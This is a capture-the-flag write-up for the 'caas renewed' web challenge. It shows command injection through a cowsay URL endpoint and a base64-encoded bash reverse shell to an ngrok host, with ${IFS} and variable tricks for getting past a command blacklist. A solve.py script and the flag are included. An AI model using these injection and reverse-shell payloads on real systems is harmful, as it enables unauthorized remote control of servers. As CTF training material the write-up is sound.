





# caas renewed

```
moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt

Author: ravinesPlains

Link: http://caas.web.nitectf.live

File: caasRenewed.zip
```

## POC

Upon inspecting the index page, I discovered a link format for generating cowsay messages: [http://caas.web.nitectf.live/cowsay/{message}](http://caas.web.nitectf.live/cowsay/Val0id)



I successfully injected the command `pwd` and received the expected output.



But I encountered restrictions through both a whitelist and a blacklist of commands.

[blacklist.txt](./blacklist.txt)<br>
[whitelisted.txt](./whitelisted.txt)

To overcome this limitation, I crafted a payload to achieve a reverse shell. I used `nc` and `ngrok` for listening on my specified port.



The payload was a bash command.

```bash
bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/11544 0>&1
```

I encoded the payload in base64, with special attention to avoiding blacklisted and whitelisted commands.

```bash
echo 'bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/11544 0>&1' | base64
```

```bash
b="b"
```

```bash
${IFS}
```

This was the final payload.

```bash
Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash
```

I sent the payload to the url.

[`http://caas.web.nitectf.live/cowsay/Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash`](http://caas.web.nitectf.live/cowsay/Val0id;b="b";echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg==|${b}ase64${IFS}-d|${b}ash)

And I got the reverse shell.



Since I already knew where was the flag located from the description, I just need to printed out with this command.

```bash
cat /etc/cowsay/falg.txt
```



The flas was successfully revelead.

## solve.py

```python
import requests

url = "http://caas.web.nitectf.live/cowsay"

say = 'Val0id;b="b";echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8wLnRjcC5hcC5uZ3Jvay5pby8xMTU0NCAwPiYxCg%3D%3D|${b}ase64${IFS}-d|${b}ash'

requests.get(f"{url}/{say}")
```

## Flag

`nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}`
